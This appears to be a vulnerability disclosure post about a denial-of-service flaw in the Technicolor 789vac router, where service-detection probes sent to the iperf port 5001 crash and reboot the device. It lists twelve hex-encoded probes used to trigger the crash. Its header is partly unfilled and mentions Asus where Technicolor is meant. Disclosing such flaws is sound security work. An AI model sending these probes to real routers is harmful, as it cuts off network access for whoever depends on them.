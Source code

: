 ```yaml
---
layout: post
title: "-"
date: 2025-01
comments: -
categories: vulnerability
---
```



## Affected products

We have not yet tested Asus models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT 2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We analyzed the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of possible probes tested: 

Probe #1: 010000fdcefa0bb0a00000004d4d53140000000000000000000000000000001200000001000300f0f0f0f00b0004001c0003004e00530050006c0061007900650072002f0039002e0030002e0030002e0032003900380030003b0020007b00300030003000300041004100300030002d0030004100300030002d0030003000610030002d0041004100300041002d003000300030003000410030004100410030004100410030007d000000e06ddf5f

Probe #2: 0000001f000000000000000c476574436c6173734e616d650000000204000000000100

Probe #3: 0d0a0d0a

Probe #4: 474554202f20485454502f312e300d0a0d0a

Probe #5: 4f5054494f4e53202f20485454502f312e300d0a0d0a

Probe #6: 4f5054494f4e53202f20525453502f312e300d0a0d0a

Probe #7: 8000002872fe1d130000000000000002000186a00001977c0000000000000000000000000000000000000000

Probe #8: 001e0006010000010000000000000776657273696f6e0462696e640000100003

Probe #9: 000c000010000000000000000000

Probe #10: 48454c500d0a

Probe #11: 16030000530100004f03003f47d7f7ba2ceeeab2607ef300fd827bb9d596c8779be6c4db3c3ddb6fef106e00002800160013000a006600050004006500640063006200610060001500120009001400110008000600030100

Probe #12: 0300002a25e00000000000436f6f6b69653a206d737473686173683d6e6d61700d0a0100080003000000


 
